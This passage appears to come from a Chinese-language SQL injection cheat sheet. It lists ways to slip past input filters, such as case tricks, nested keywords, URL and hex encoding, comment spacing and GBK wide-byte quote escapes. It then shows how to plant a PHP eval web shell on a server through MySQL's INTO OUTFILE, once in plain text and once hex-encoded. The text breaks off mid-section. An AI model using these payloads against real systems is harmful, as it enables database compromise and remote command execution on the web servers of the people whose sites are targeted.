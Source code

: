 ## 0x08 绕过
````
#拼接'
' or '1'='1       //注释符被过滤

#大小写变换
SeleCT

#套娃
selselectect

#编码
%53%45%4c%45%43%54      //SELECT

#使用sql注释绕过
select/**/username,password/**/from/**/user--   //如果空格被过滤了，可以用来代替空格

sele/**/ct username fr/**/om user--    //mysql中甚至可以用来隔开字符

#拼接字符
'adm'||'in'
'adm'+'in'
concat('adm','in')

#字符替换
可以用各种字符转化函数
CHR（ascii码转化）
REVERSE（字符串反转）
TRANSLATE（高级的字符串替换）
REPLACE
SUBSTR

甚至可以建立一个十六进制的编码的字符串，通过exec来执行，例exec('select * from user')可以变成
declear @q varchar(5000); select @q=0x73 65 6C 65 63 74 20 2A 20 66 72 6F 6D 20 75 73 65 72 ,exec(@q) 

#宽字节注入
编码方式不同构造双字节让'逃逸
'被转义后\'=%5c%27
但gbk为双字节，可以输入其他字符与%5c结合，让%27逃逸
比如输入
%d5%27            //%d5%5c是汉字 诚
编码后
%d5%5c%27
%d5%5c被结合=诚'
不一定是%d5
0×81-0xFE开头+0×5C的字符应该都可以
````

## 0x09 注入利用
### 1.写马 
需要高权限+知道绝对路径
````
select '<?php eval($_POST[cmd])?>' into outfile '物理路径'

#16进制版
select 0x3C3F706870206576616C28245F504F53545B27636D64275D293B3F3E into outfile '绝对路径' from xxx

#mysql中通过写到表中来拼接语句
创建一个表
CREATE TABLE a (cmd text NOT NULL);
插入数据
````
